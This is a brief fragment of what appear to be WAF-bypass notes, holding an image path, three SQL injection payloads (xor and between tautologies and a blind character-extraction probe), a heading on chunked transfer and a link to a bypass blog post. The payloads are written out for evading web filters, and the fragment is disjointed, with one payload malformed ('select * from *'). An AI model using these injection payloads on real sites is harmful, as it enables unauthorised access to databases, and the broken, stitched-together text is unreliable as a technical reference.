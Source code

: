 ### SQL
```
xor 105 between 100 and 200#
xor 1 between 100 and 200#
' ^ (ascii(mid((select * from * ),1,1))>0)#
```
#### 分块传输
http://www.kr1sten.cn/index.php/archives/Bypass-Waf.html?replyTo=302
